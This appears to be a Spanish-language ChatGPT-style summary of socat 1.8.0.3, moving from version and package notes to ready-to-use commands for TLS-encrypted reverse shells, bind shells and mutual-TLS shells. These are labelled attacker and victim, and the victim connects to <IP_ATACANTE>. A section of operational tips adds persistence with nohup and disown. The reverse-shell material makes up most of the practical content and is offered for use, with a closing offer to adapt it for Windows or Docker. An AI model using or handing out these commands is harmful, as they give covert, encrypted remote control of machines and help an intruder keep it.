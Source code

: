 SOCAT – RESUMEN ACTUALIZADO

**Estado actual (Agosto 3, 2025):**

* **Versión principal del software socat**: la última release upstream es **1.8.0.3**, publicada el 21 de febrero de 2025 ([dest-unreach.org][1]).
* **Paquete en Ubuntu/Debian**: disponible como **1.8.0.3‑1**, introducido en Ubuntu el 8 de mayo de 2025 ([Launchpad][2], [Launchpad][3]).
* No hay versiones mayores posteriores; versión 2025 del atlas SOCAT es al contexto oceanográfico, no relacionada con la herramienta CLI socat ([socat.info][4]).

---

## ■ SOCAT 1.8.0.3 – Puntos clave

* Corrige múltiples errores menores, actualiza parches, ajusta compatibilidad con Linux-only ([Launchpad][3]).
* Enfocado en estabilidad, sin nuevas funciones ofensivas relevantes desde la versión anterior ([Launchpad][3]).

---

## ■ Apuntes técnicos funcionales: SOCAT y SHELLS CIFRADOS

### 1) Generación de certificados

```bash
openssl req -newkey rsa:2048 -nodes -keyout key.pem -x509 -days 365 -out cert.pem
cat cert.pem key.pem > fullchain.pem
```

### 2) Reverse shell cifrada (TLS)

* **Atacante (listener TLS):**

```bash
socat -d -d OPENSSL-LISTEN:4444,reuseaddr,fork,cert=fullchain.pem,key=key.pem STDOUT
```

* **Víctima (cliente TLS):**

```bash
socat -d -d EXEC:"/bin/bash",pty,stderr,setsid,sigint,sane \
    OPENSSL:<IP_ATACANTE>:4444,verify=0
```

* `-d -d` habilita debug verbose útil en pruebas ([medium.com][5]).

### 3) Bind shell cifrada

* **Víctima (listener TLS):**

```bash
socat -d OPENSSL-LISTEN:4444,reuseaddr,fork,cert=fullchain.pem,key=key.pem \
    EXEC:"/bin/bash",pty,stderr,setsid,sigint,sane
```

* **Atacante (cliente TLS):**

```bash
socat -d STDIO OPENSSL:<IP_VICTIMA>:4444,verify=0
```

### 4) Mutual TLS (opcional – verificación por par cliente/servidor)

```bash
# Generación:
openssl genrsa -out server.key 2048
openssl req -new -key server.key -x509 -days 3653 -out server.crt
openssl genrsa -out client.key 2048
openssl req -new -key client.key -x509 -days 3653 -out client.crt
cat server.key server.crt > server.pem
cat client.key client.crt > client.pem

# Escucha servidor:
socat OPENSSL-LISTEN:1443,reuseaddr,fork,cert=server.pem,cafile=client.crt,verify=1 \
    exec:'bash -i',pty,stderr,setsid,sigint,sane

# Cliente:
socat OPENSSL:servidor:1443,verify=1,cert=client.pem,cafile=server.crt -
```

Requiere certificados coincidentes entre client/server ([redcursor.com.au][6]).

---

## ■ Diferencias vs versiones previas

* Versiones anteriores (1.8.0.2‑1 y 1.8.0.1‑2) incluían fixing de CVEs (como CVE‑2024‑54661) y reconstrucciones ([Launchpad][3]).
* No se detectaron nuevas funcionalidades ofensivas desde la 1.8.0.2; enfoque en robustez.

---

## ■ Recomendaciones operativas

* Actualizar siempre a **socat 1.8.0.3**.
* Usar `-d -d` durante pruebas para verificar fallos de conexión SSL/TLS o eje terminal.
* Prefijar con `reuseaddr,fork` para permitir reconexiones simultáneas o reinicios rápidos.
* Para persistencia: combinar con `nohup`, redirección `& disown`.

---

## ■ Comparativa rápida

| Contexto      | SOCAT mínimo (versión) | Uso TLS recomendado      | Opciones clave    |
| ------------- | ---------------------- | ------------------------ | ----------------- |
| Reverse shell | ≥ 1.8.0.0              | fullchain.pem + verify=0 | fork, pty, sane   |
| Bind shell    | ≥ 1.8.0.2              | fullchain.pem + verify=0 | reuseaddr, fork   |
| Mutual TLS    | ≥ 1.8.0.3              | cert=cafile & verify=1   | certificado mutuo |

---

¿Necesitás configuración adaptada a Windows o contenedores Docker?

[1]: https://www.dest-unreach.org/socat/?utm_source=chatgpt.com "socat - dest-unreach"
[2]: https://launchpad.net/ubuntu/%2Bsource/socat?utm_source=chatgpt.com "socat package : Ubuntu - Launchpad"
[3]: https://launchpad.net/ubuntu/%2Bsource/socat/%2Bchangelog?utm_source=chatgpt.com "Change log : socat package : Ubuntu - Launchpad"
[4]: https://socat.info/index.php/version-2025/?utm_source=chatgpt.com "SOCAT Version 2025 - Surface Ocean CO₂ Atlas"
[5]: https://medium.com/%40thomazs06/complete-beginner-shells-and-privilege-escalation-what-the-shell-tryhackme-09a106294ad5?utm_source=chatgpt.com "Complete Beginner-Shells and Privilege Escalation-What the Shell?"
[6]: https://redcursor.com.au/advanced-socat/?utm_source=chatgpt.com "Advanced socat - Red Cursor | Security Pen Testing Firms"
